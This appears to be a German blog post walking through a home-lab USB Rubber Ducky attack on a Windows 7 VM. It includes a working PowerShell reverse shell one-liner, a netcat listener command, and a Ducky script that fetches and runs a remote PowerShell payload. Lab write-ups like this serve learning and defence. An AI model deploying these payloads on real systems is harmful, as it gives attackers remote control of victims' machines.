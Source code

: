 ## Aufsetzen des Zielsystem 🎯
Nun ein Windows 7 zum Glück hatte ich noch ein paar alte ISOs auf der Festplatte. 😉

Ich hatte kein Lust auf einen echten Rechner ein Windows 7 zu installieren, also hab ich meine Lab Umgebung zu Rate gezogen.
Schnell eine kleine WM erstellt. Bin erstaunt, wie gut das läuft mit 2GB RAM, was noch zu beachten ist, dass man den USB POrt an die VM weiterleiten muss.
Aber dank Proxmox kein Problem einfach unter: `Hardware` -> `Add` -> `USB Device`

![Proxmox USB weiterleiten](img/usb_pve.png)


## Aufsetzen des Angreifersystem 🏹
In diesem Fall braucht der Angreifer auch ein Rechner/Server, bei mir ist es jetzt ein LXC Container im selben Netzwerk, dieser würde auch im Normalfall im Internet erreichbar sein.

Auf dem Server läuft ein ein normaler Apache2 Webserver, auf diesem liegt ein Powershell Script.

Das sieht so aus:
{{< codeWide >}}
$sm=(New-Object Net.Sockets.TCPClient("192.168.178.92",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
{{< /codeWide >}}

Die Reverse Shell muss mit `nc -l -p 4444` gestartet werden, am besten unter der Verwendung von `tmux`.


Das Ducky Script welches ich verwendet habe:

{{< codeWide >}}
DELAY 1000
GUI r
DELAY 1000
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');"
ENTER
{{< /codeWide >}}

